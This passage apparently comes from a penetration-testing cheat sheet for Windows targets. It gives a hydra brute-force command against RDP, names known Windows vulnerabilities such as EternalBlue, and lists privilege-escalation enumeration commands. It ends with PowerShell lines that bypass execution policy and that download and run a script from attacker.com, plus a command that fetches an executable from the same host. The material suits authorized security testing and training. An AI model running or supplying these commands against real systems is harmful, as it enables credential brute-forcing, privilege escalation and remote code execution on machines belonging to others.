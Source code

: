 ```bash
hydra -l administrator -P wordlist.txt rdp://target.com
```

### Windows Exploitation

#### Common Vulnerabilities
- **MS17-010 (EternalBlue)**: SMB vulnerability
- **MS08-067**: Windows Server Service vulnerability
- **MS14-058**: TrackPopupMenu vulnerability

#### Windows Privilege Escalation
```batch
# System information
systeminfo
hostname
whoami /all

# User enumeration
net user
net localgroup administrators
net user /domain

# Network information
ipconfig /all
route print
arp -a
netstat -ano

# Running processes
tasklist /svc
wmic process list brief

# Scheduled tasks
schtasks /query /fo LIST /v

# Unquoted service paths
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """

# Writable services
accesschk.exe -uwcqv "Authenticated Users" *

# Registry auto-runs
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
```

#### PowerShell Commands
```powershell
# Execution policy bypass
powershell -ExecutionPolicy Bypass -File script.ps1
powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://attacker.com/script.ps1')"

# Get system info
Get-ComputerInfo
Get-WmiObject -Class Win32_OperatingSystem

# Find files
Get-ChildItem -Path C:\ -Include *.txt,*.pdf -Recurse -ErrorAction SilentlyContinue

# Download file
Invoke-WebRequest -Uri http://attacker.com/file.exe -OutFile file.exe
```
